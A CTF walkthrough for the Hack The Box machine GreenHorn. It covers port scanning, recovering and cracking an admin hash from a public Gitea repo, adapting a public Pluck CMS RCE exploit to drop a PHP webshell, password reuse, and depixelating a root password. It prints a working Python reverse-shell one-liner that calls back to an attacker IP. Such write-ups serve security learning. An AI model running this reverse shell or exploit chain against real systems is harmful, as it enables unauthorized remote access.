 ```yaml
---
title: CTF Walkthrough for HTB Machine GreenHorn
date: 2024-10-02 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [HTB, Writeup, Depixelisation]   
image:
  path: /assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/box-greenhorn.webp
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about GreenHorn a machine on the Hack The Box platform. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment. 
### Machine Description
Name: GreenHorn<br>
Difficulty: Easy<br>
Operating System: Linux<br>
Machine link: [GreenHorn HTB](https://app.hackthebox.com/machines/GreenHorn)<br>
### Tools used
1) Nmap<br>
2) ffuf<br>
3) Depix<br>
4) Hashcat<br>

## Reconnaisance
We will start by enumerating open ports on our target using Nmap SYN packet scan
```bash 
sudo nmap -sS -n 10.10.11.25 -oN ports-dis.nmap 
```
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/ports-dis.png)

We now enumerate the service's names and versions using Nmap's common scripts service discovery scan.
```bash
sudo nmap -sV -sC  -n 10.10.11.25 -p 22,80,3000 -oN services-dis.nmap
```
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/services-scan.png)

From the service scan above, we can identify the target's domain. we can add to our /etc/hosts file
```bash
echo '10.10.11.25   greenhorn.htb' | sudo tee -a  /etc/hosts 
```
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/hosts-config.png)

From our scan result, we can identify two web applications that run on the target. Let's visit the first one running on port 80. Here we can see a greeting page welcoming new web developers. 
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/first-browse.png)

From the greeting page, we can see a link that brings us to a login form. On that login form, we can see the version number of something called Pluck. A quick Google search shows us that Pluck is a CMS. 
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/cms-version.png)
 
## Exploitation

Since the CMS version is displayed on the page we can use searchsploit to see if that specific version number has any public exploit available. We can see an RCE vulnerability is available for that specific version number.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/exploit-finding.png)

When we examine the exploit script we can see that the RCE is possible only after login but at this point in our assessment we do have a password. Let's skip this for the moment.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/exploit-examine.png)

We have reached a limit in the web application running on port 80 because we don't have credentials. Let's visit the second web application uncovered during the service scan running on port 3000. We can see that our target runs a Gitlab instance. 
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/second-browse.png)

Gitlab instances are known to contain source code that may expose credentials. When we navigate to public repositories, we can see a repository named like of the web application running on port 80. This might surely be its source code.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/public-repos.png)

Since we are hunting for credentials, Let's examine how the login.php responsible functions. Credentials are usually identified by searching for something containing the keyword 'pass'. Looking for this keyword in the search bar, we can see online a certain file named pass.php is imported from the data/settings/ directory.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/code-examine.png)

Upon visiting this file we discover that a variable named $ww containing a long string is indeed imported into the login.php file.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/password-dis.png)

To understand the use of this variable we can go to the login.php file and search for its name. We will see that this variable is used on 79 that it's being compared with another variable named $pass. The line just above i.e. line 78 shows the password comparison taking place.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/password-dis-2.png)

At this point, we have identified the variable containing the password entered by the user but we don't know if this password is processed as cleartext after being hashed or encrypted. For this reason, we can search for all the occurrences of the variable $pass. Reading through the login.php file more deeply we can see on line 56  that the password stored in the POST parameter count1 is first hash using sha-512 before being stored in the $pass variable. With this finding, we can conclude that the value stored in $ww above is also the sha-512 hash of the admin's password. 
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/password-dis-3.png)

We can copy this password and brute force it using Hashcat mode 1700.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/hashcat.png)

Now that we have a password, Let's go back to the web application running the vulnerable CMS and modify the exploit for our target.
We will modify line 19 by replacing the value of the count1 dictionary key with that of the cracked password. Also, we will replace localhost with the actual domain of our target. Notice that when we access the login.php page from our browser we access it directly from the web root directory. For this reason, we need to remove the 'pluck' directory from every link in the payload. It should look like the image below.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/exploit-modification.png)

Line 21 tells us that the exploit requires a zip file. This is surely the PHP code to be executed on the target after successful exploitation. So let's create a simple PHP webshell and compress it into an archive.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/payload-craft.png)

If we read through the payload again we will notice that the payload uploads our webshell zip file with a default name i.e. mirabbas.zip. Note this target is being accessed by many other hackers so we may want to change this default name to our custom name to avoid overwriting someone's file who used this name. To do this we should change all the occurrences of mirabbas with nicefile.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/exploit-modification-1.png)

Since the payload I used here is a basic web shell we will have to make a few modifications at the end of the script.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/exploit-modification-2.png)

Now that our script is ready, we can run it to upload our web shell and use that web shell to execute commands on the target.<br>
*Some people may decide to upload a PHP reverse shell and catch a shell directly after running the exploit POC*
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/exploit-exec.png)

Great, we have obtained a foothold on our target. We can leverage this simple web shell to obtain a tty reverse shell by using the Python3 payload below. Don't forget to start your listener at the specified port before executing it on the target.
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.50",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); import pty; pty.spawn("sh")'
```

Never forget that users are usually prone to use the same password across many services. So, let's try to authenticate as the user junior using the same password we cracked above.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/user-auth-1.png)
We can see that we had successfully authenticated as a junior, we can use this access to read the flag and continue our enumeration process.

## Post Exploitation

In our user's home directory we can see an interesting file, let's transfer it to our attack host for further analysis.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/user-file-trans-1.png)

![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/user-file-trans-2.png)

When we open the PDF file, we see something that resembles a command prompt when a user uses the sudo command but at the place of the password, we see a blurry image. I opened the image in a word processing application and I saved it locally to my system. 

I searched for how to recover blur images and I came across the tool [Depix](https://github.com/spipm/Depix). We can download this tool and following the installation guide on the tool's README.md page try to recover the blur image.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/depix-image.png)

The tool outputs a new image called output.png in the same working directory. This image is not completely clear but the characters are distinguishable.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/output.png)

We then use that password to log in as root through SSH. With this access, we can read the root's flag.
![](/assets/img/posts/walthrough/hackthebox/2024-10-02-greenhorn/root-access.png)

## Conclusion

Congratulations! In this walkthrough, you have exploited a vulnerability in Pluck CMS after discovering the password of the admin user in the Public Gitea repository. Finally, you depixelise an image to reveal the root user password. This machine was designed to demonstrate how poor update practices and keeping sensitive files publicly accessible can seriously impact an organisation's security posture. Thanks for following up on this walkthrough.
